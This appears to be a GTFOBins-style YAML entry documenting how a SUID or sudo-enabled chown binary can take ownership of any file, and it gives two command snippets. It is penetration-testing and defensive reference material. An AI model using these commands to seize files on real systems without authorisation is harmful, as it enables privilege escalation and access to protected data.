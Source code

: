 ```yaml
---
description: This can be run with elevated privileges to change ownership and then read, write, or execute a file.
functions:
  suid-enabled:
    - code: |
        LFILE=file_to_change
        ./chown $(id -un):$(id -gn) $LFILE
  sudo-enabled:
    - code: |
        LFILE=file_to_change
        sudo chown $(id -un):$(id -gn) $LFILE
---
```

